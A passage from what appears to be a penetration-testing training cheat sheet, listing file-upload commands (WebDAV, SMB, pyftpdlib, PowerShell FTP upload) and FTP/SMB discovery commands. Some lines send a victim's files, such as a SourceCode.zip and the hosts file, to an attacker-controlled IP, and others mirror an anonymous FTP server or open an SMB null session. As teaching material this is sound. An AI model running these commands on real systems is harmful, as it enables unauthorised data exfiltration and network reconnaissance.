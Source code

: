 | ``sudo pip install wsgidav cheroot`` | Installing WebDav Python modules |

| ``sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous`` | Using the WebDav Python module |

| ``dir \\192.168.49.128\DavWWWRoot`` | Connecting to the Webdav Share -CMD |

| ``copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\`` | Uploading Files using SMB |

| `**FTP Uploads**` |  |

| ``sudo python3 -m pyftpdlib --port 21 --write`` | Starting the upload server |

| ``(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')`` | PowerShell Upload File using ftp |



## Discovery

### Host-based

| Command | Description |
| ------- | ----------- |

| `**Command**` | **Description** |

| `---------------------------------------------------------` | ----------------------------------------------------------------------- |

| ``ftp <FQDN/IP>`` | Interact with the FTP service on the target. |

| ``nc -nv <FQDN/IP> 21`` | Interact with the FTP service on the target. |

| ``telnet <FQDN/IP> 21`` | Interact with the FTP service on the target. |

| ``openssl s_client -connect <FQDN/IP>:21 -starttls ftp`` | Interact with the FTP service on the target using encrypted connection. |

| ``wget -m --no-passive ftp://anonymous:anonymous@<target>`` | Download all available files on the target FTP server. |

| ``get`` | To download a file |

| ``put`` | To upload a file |

| ``find / -type f -name ftp* 2>/dev/null \| grep scripts`` | Nmap FTP Scripts |

| `--------------------------------------------------------` | ------------------------------------------------------------------------------------------------------- |

| ``smbclient -N -L //<FQDN/IP>`` | Null session authentication on SMB and to see available shares |
